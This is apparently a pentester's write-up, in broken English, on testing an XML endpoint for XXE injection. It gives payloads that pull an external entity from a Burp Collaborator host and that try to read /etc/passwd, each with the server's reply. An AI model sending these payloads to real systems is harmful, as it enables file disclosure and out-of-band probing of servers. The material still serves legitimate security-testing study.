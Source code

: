 Some Error Can be Easily Fixed 

```http
POST /interesting/ HTTP/1.1
Host: server.company.com
Content-Type: application/xml
Content-Length: 30

<?xml version="1.0" ?>
<Doc/>
```

```xml
<result>
<errors>
<error>Authentication failed: The resource requires authentication, which was not supplied with the request</error>
</errors>
</result>
```

Accepting Xml . But Problem is not documentation we don't what is correct way though 
In any case, this is the point where you should try and include a DOCTYPE definition to see whether the use of external entities is blocked off completely, or whether you can continue your quest for fun and profit.

```http
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://59c99fu65h6mqfmhf5agv1aptgz6nv.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```
The server was not able to produce a timely response to your request.
```

collab has DNS only .

server appears to resolve my domain name, but the expected HTTP request is not there. Furthermore, note that the server timed out after a few seconds with a 500 error.

This means firewall is work 

```http
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "file:///etc/passwd"> %ext;
]>
<r></r>
```

```
The markup declarations contained or pointed to by the document type declaration must be well-formed.
```
